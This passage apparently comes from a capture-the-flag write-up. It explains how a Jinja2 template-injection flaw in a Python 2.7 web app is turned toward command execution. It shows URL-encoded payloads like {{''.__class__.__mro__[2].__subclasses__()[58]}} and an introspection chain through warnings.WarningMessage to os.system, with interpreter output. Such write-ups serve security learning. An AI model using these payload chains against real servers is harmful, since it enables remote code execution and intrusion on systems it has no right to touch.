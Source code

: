 What's useful about the `__globals__` dictionary inside the `warnings` module's class objects is that, since the class objects were instantiated in the global Python namespace (which we can see by examining [their source code](https://hg.python.org/cpython/file/2.7/Lib/warnings.py), available to us thanks to the fact that Python is [free software](https://www.gnu.org/philosophy/free-sw.html)), this dictionary will contain references to other loaded Python standard library modules. One of those is [the `sys` module](https://docs.python.org/2/library/sys.html), and [the `sys` module has a dictionary called `modules`](https://docs.python.org/2/library/sys.html#sys.modules) that helpfully enumerates "modules that have already been loaded." Let's explore that:

```sh
>>> warnings.WarningMessage.__init__.__globals__['sys']
<module 'sys' (built-in)>
>>> warnings.WarningMessage.__init__.__globals__['sys'].modules.keys()
['tokenize', 'heapq', 'copy_reg', 'sre_compile', '_collections', 'locale', '_sre', 'functools', 'encodings', 'site', '__builtin__', 'sysconfig', '__main__', 'operator', 'encodings.encodings', 'pkgutil', '_heapq', 'abc', 'posixpath', '_weakrefset', 'errno', 'encodings.codecs', 'sre_constants', 're', '_abcoll', 'collections', 'types', '_codecs', 'encodings.__builtin__', 'opcode', '_warnings', 'genericpath', 'stat', 'zipimport', '_sysconfigdata', 'string', 'warnings', 'UserDict', 'inspect', 'encodings.utf_8', 'repr', 'sys', '_osx_support', 'imp', 'codecs', 'readline', 'os.path', 'strop', '_functools', '_locale', 'thread', 'keyword', 'signal', 'traceback', 'pydoc', 'linecache', 'itertools', 'posix', 'encodings.aliases', 'exceptions', 'sre_parse', 'os', '_weakref', 'token', 'dis']
```

There it is, the `os` module, and its `system()` method:

```sh
>>> warnings.WarningMessage.__init__.__globals__['sys'].modules['os']
<module 'os' from '/opt/local/Library/Frameworks/Python.framework/Versions/2.7/lib/python2.7/os.pyc'>
>>> warnings.WarningMessage.__init__.__globals__['sys'].modules['os'].system
<built-in function system>
```

Now that we can get a reference to the `system()` method by introspecting the `warnings.WarningMessage` class, the next step is to translate this into a URL payload. As usual, we start with the Jinja expression delimeters, then we walk up to the root object, as before. Recall that payload, URL-encoded is:

```
%7B%7B''.__class__.__mro__[2].__subclasses__%28%29%7D%7D
```

This produced the long list of available Python object and class references. We want to access the `warnings.WarningMessage` one, so we need to find its index number in the list. The naive way to do this is to simply enumerate each item in the list, starting at `0`, and incrementing until we find the value we're after. For instance, [injecting `{{''.__class__.__mro__[2].__subclasses__()[0]}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%28%29[0]%7D%7D) gives us the very first item in the list (`<type 'type'>`). Incrementing the `0` to a `1` and injecting that gives us the second item (`<type 'weakref'>`). We can continue in this manner until we get the desired result, which turns out to be index number `58`. Thus, [our payload so far is `{{''.__class__.__mro__[2].__subclasses__()[58]}}`](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B''.__class__.__mro__[2].__subclasses__%28%29[58]%7D%7D):

```html
[Errno 2] No such file or directory: u"<class 'warnings.WarningMessage'>"
```
